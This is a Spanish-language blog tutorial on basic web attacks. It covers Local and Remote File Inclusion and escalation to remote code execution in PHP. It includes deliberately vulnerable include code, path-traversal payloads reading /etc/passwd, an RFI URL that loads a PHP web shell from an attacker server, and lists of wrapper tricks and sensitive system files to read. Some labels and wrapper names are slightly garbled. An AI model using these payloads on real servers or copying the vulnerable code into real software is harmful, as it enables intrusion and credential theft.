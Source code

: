 ```yaml
---
layout: post
title:  "Aprendiendo a identificar los diferentes ataques basicos a nivel Web"
description: Aprendiendo sobre las Vulnerabilidades " LFI // RFI // RCE "
tags: Web Attacks
---
```

Empezaremos por aprender las principales Vulnerabilidades a nivel Web
  
# ~ LFI ~   Local File Inclusion

1.- La vulnerabilidad de Local File Inclusion se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos desde una variable.

-Ejemplo 1
Para poder corroborar si un sitio es vulnerable, se puede colocar un valor ilógico a la variable. 
En nuestro ejemplo tenemos: "http://localhost/index.php?page=" donde se coloca un valor, en este caso http://localhost/index.php?page=78se3, algo aleatorio que no se encuentre registrado.
Si arroja un error como Warning: main()… o Warning: include()… o similar entonces es probable que sea vulnerable a RFI o LFI

~ Archivo vulnerable de php mediante LFI ~ 
{% highlight php %}
<?php
include $_GET[‘pagina’];
?>
{% endhighlight %}

-Ejemplo 2
Nos montamos un servidor apache ($service apache2 start) que almacene dos archivos:
```
* example.php
* file.txt
```
Donde example.php seria:
{% highlight php %}
<?php
    $file = $_GET['filename'];
    include($file);
?>
{% endhighlight %}

Y file.txt:
``` 
Por Aqui Puede Haber Un LFI
```
Nosotros apuntando a nuestro servidor podriamos ya listar archivos Locales del servidor, atraves de la variable "filename"

```bash
http://localhost/example.php?filename=file.txt
Por Aqui Puede Haber Un LFI
http://localhost/example.php?filename=/etc/passwd
listariamos el archivo /etc/passwd
Esto es un LFI
```

<a href="https://ibb.co/gjNZPZr"><img src="https://i.ibb.co/xCWqfq2/url-LFI.png" alt="url-LFI.png" border="0" /></a>

Supongamos que el desarrollador nos indica en donde debe encontrarse el archivo a buscar a traves de una ruta:

{% highlight php %}
<?php
    $file = $_GET['filename'];
    include("/var/www/html/" . $file);
?>
{% endhighlight %}

```bash
http://localhost/example.php?filename=../../../../../etc/passwd
Y volveriamos a listar el archivo /etc/passwd
```


# ~ RFI ~   Remote File Inclusion
La vulnerabilidad de Remote File Inclusion se produce cuando:
Una página vulnerable que presente un aspecto similar a este en su URL:   " http://[servidor_victima]/index.php?page=plantilla.html "
El atacante (Nosotros) podriamos obtener una Shell en el servidor vulnerable mediante lo siguiente:
http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt&&cmd=ls

Pudiendo contener el archivo shell.txt cualquier código, por ejemplo:
{% highlight php %}
<?php
  system($cmd);
?>
{% endhighlight %}

# ~ RCE ~   Remote File Inclusion
Algunas formas comunes de pasar de un LFI a RCE:
Ahora, por lo general, cuando encuentro una inclusión de archivo local o LFI, primero trato de convertirlo en una ejecución remota de código.

> Trucos para convertir su LFI en RCE mediante el ~ Uso de formularios / funciones de carga de archivos:
```bash
Usando el contenedor de PHP  wait: // comando
Usando el archivo PHP wrapper  php: //
Usando el contenedor PHP  php: // filter
Usando PHP      input: // stream
Usando datos: // texto / plano; base64, comando
Usando / proc / self / environment
Usando / proc / self / fd
```
>Las siguientes Rutas importantes:
```bash
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

Let's start testing for reading local files related to the operating system. The following are some Linux system files that have sensitive information.

```bash
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```
